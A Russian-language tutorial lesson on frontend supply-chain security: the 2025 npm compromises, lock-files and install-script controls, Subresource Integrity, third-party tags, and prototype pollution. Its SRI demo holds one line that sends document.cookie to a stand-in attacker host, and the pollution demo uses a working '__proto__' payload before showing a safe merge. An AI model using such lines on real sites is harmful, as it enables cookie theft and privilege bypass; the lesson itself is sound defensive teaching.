

## О чём урок

Код, который вы не писали, но выполняете: зависимости из npm и сторонние скрипты. Как устроены атаки на цепочку поставок на примере 2025 года (взлом `chalk` и `debug`, червь Shai-Hulud), что изменилось в npm и pnpm, как защищать проект (lock-файл, скрипты установки, задержка новых версий, аудит), Subresource Integrity для скриптов с CDN, сторонние теги на странице и prototype pollution через небезопасное слияние объектов. Риск занимает третье место в OWASP Top 10:2025 как отдельная категория. Примеры выполняются в Node.js.

## Почему это риск фронтенда

Типичное приложение тянет сотни и тысячи пакетов, большинство транзитивно. Каждый выполняется **дважды**: при установке (скрипты `preinstall` и `postinstall` на машине разработчика и в CI, с доступом к токенам и ключам) и в бандле (в браузере пользователя, с правами вашего источника).



**Сентябрь 2025** показал оба пути:

- **8 сентября** через фишинговое письмо от имени поддержки npm украли аккаунт мейнтейнера и выпустили заражённые версии 18 популярных пакетов, включая `chalk` и `debug` (миллиарды загрузок в неделю). Код в бандле подменял адреса криптокошельков в запросах страницы.
- **С 14 сентября** червь **Shai-Hulud**: скрипт установки искал токены npm, GitHub и облаков на машине, публиковал их и выпускал заражённые версии всех пакетов владельца токена. В ноябре 2025 пришла вторая волна.
- Ответ GitHub: публикация только через **trusted publishing** (CI публикует по OIDC без долгоживущих токенов) или локально с обязательной 2FA, гранулярные токены на срок до 7 дней, отказ от классических токенов.

## Как защищать проект

| Мера | Что даёт |
|---|---|
| Lock-файл в репозитории, `npm ci` или `pnpm install --frozen-lockfile` в CI | Устанавливаются ровно проверенные версии, а не «последняя подходящая» |
| Скрипты установки только по списку | pnpm 10+ не запускает скрипты зависимостей без `allowBuilds`; в npm `--ignore-scripts` или `ignore-scripts=true` |
| Задержка новых версий | В pnpm 11 `minimumReleaseAge` по умолчанию 1 день: вредоносные версии обычно находят и удаляют за часы |
| Источники пакетов | `blockExoticSubdeps` в pnpm запрещает транзитивные зависимости из git и по прямым ссылкам |
| Аудит и обновления | `pnpm audit`, `npm audit`, Dependabot или Renovate; обновления пачками с ревью изменений lock-файла |
| Меньше зависимостей | Пакет на 10 строк заменяют встроенным API (`structuredClone`, `Intl`, `Object.groupBy`) или своим кодом |
| Секреты в CI | Короткоживущие токены, отдельные права на установку и публикацию, trusted publishing для своих пакетов |

## Subresource Integrity

Скрипт или стиль со стороннего CDN подключают с хэшем ожидаемого содержимого. Если файл на CDN изменили (взлом CDN, подмена версии), браузер его не выполнит.

```ts run
// Subresource Integrity: the page states the hash of the file it expects from the CDN.
async function integrity(content: string) {
  const digest = await crypto.subtle.digest('SHA-384', new TextEncoder().encode(content))
  return 'sha384-' + btoa(String.fromCharCode(...new Uint8Array(digest)))
}

const published = 'export function track(event) { navigator.sendBeacon("/collect", event) }'
const expected = await integrity(published)
console.log(`<script src="https://cdn.example/analytics@2.1.0.js" integrity="${expected.slice(0, 22)}…" crossorigin="anonymous">`)

// Later the CDN serves a changed file: one extra line that sends cookies elsewhere.
const served = published + '\nfetch("https://evil.example/?c=" + document.cookie)'
for (const [label, body] of [['original file', published], ['tampered file', served]]) {
  const ok = (await integrity(body)) === expected
  console.log(label.padEnd(14), ok ? 'hash matches: the script runs' : 'hash differs: the browser blocks the script')
}
```

```output
<script src="https://cdn.example/analytics@2.1.0.js" integrity="sha384-fJIVXs94MLV8UOb…" crossorigin="anonymous">
original file  hash matches: the script runs
tampered file  hash differs: the browser blocks the script
```

- `integrity` это `sha384-` плюс base64 от SHA-384 содержимого; браузер считает хэш загруженного файла и сравнивает. `crossorigin="anonymous"` обязателен для скрипта с другого источника: без CORS браузер не может проверить ответ.
- SRI работает только для **неизменяемых** файлов с версией в адресе. Скрипт аналитики «последней версии», который вендор меняет без предупреждения, так не защитить: его загружают с собственного домена после ревью или изолируют.
- Свой бандл с хэшем в имени, раздаваемый со своего домена, SRI обычно не нужен; полезна CSP (урок `sec-csp`).

## Сторонние скрипты на странице

Менеджер тегов, аналитика, чат, A/B-тесты выполняются с правами вашего источника: видят поля форм, cookie без `HttpOnly`, могут изменить страницу оплаты. Атаки на скрипты оплаты (Magecart) годами воровали номера карт именно так.

- Минимум сторонних тегов на страницах входа и оплаты; поле карты провайдера в его iframe, а не на вашей странице.
- Ревью и список разрешённых тегов в менеджере тегов, у маркетинга нет права добавить произвольный скрипт без проверки.
- Строгая CSP ограничивает, какие скрипты подключает менеджер тегов; данные о производительности сторонних скриптов в уроке `perf-resources`.

## Prototype pollution

Отдельный класс уязвимостей в JavaScript-коде, свой и библиотек: изменение `Object.prototype` через данные, которые пришли извне.

```ts run
// A naive deep merge, as in many hand-written "settings" utilities.
function merge(target: any, source: any) {
  for (const key of Object.keys(source)) {
    if (typeof source[key] === 'object' && source[key] !== null) {
      target[key] ??= {}
      merge(target[key], source[key])
    } else target[key] = source[key]
  }
  return target
}

// JSON from a request body or a URL: JSON.parse creates an own key named "__proto__".
const body = JSON.parse('{"theme": "dark", "__proto__": {"isAdmin": true}}')
merge({}, body)
const anotherUser: any = {}
console.log('any object is now admin:', anotherUser.isAdmin)
delete (Object.prototype as any).isAdmin

// Safer: skip dangerous keys, or keep untrusted data out of plain objects.
const BLOCKED = new Set(['__proto__', 'constructor', 'prototype'])
function safeMerge(target: any, source: any) {
  for (const key of Object.keys(source)) {
    if (BLOCKED.has(key)) continue
    if (typeof source[key] === 'object' && source[key] !== null) safeMerge((target[key] ??= {}), source[key])
    else target[key] = source[key]
  }
  return target
}
safeMerge({}, body)
console.log('after safeMerge:', ({} as any).isAdmin)
const settings = new Map(Object.entries(body)) // a Map has no prototype keys to pollute
console.log('Map keys:', [...settings.keys()].join(', '))
```

```output
any object is now admin: true
after safeMerge: undefined
Map keys: theme, __proto__
```

- `JSON.parse` создаёт обычное свойство с именем `__proto__`, а присваивание `target['__proto__']` при слиянии уже меняет прототип. После этого **у всех объектов** появляется `isAdmin`.
- Последствия: обход проверок (`if (user.isAdmin)`), XSS через «гаджеты» в библиотеках, которые читают настройки из объекта без собственного свойства, на сервере вплоть до выполнения кода.
- В lodash до 4.17.11 так были уязвимы `merge`, `mergeWith` и `defaultsDeep`; самописные функции слияния и разбора параметров URL уязвимы до сих пор.
- Защита: пропускать ключи `__proto__`, `constructor`, `prototype`; хранить данные из запросов в `Map` или объектах без прототипа (`Object.create(null)`); проверять форму входных данных схемой (Zod, Valibot) до использования.

## Главное

- Зависимость выполняется при установке (доступ к токенам и CI) и в бандле (права вашего источника); A03 в OWASP Top 10:2025.
- 2025 год: фишинг мейнтейнера `chalk` и `debug`, червь Shai-Hulud через скрипты установки; npm перешёл на trusted publishing и короткие токены.
- Защита: lock-файл и установка строго по нему, скрипты установки по списку, задержка новых версий (pnpm 11: 1 день), аудит, меньше зависимостей.
- SRI проверяет хэш скрипта с CDN; нужен `crossorigin`, работает только для неизменяемых файлов.
- Сторонние теги видят всё на странице: минимум на страницах входа и оплаты, поле карты в iframe провайдера.
- Prototype pollution: слияние недоверенных данных меняет `Object.prototype`; пропускать опасные ключи, использовать `Map` и проверять схемой.
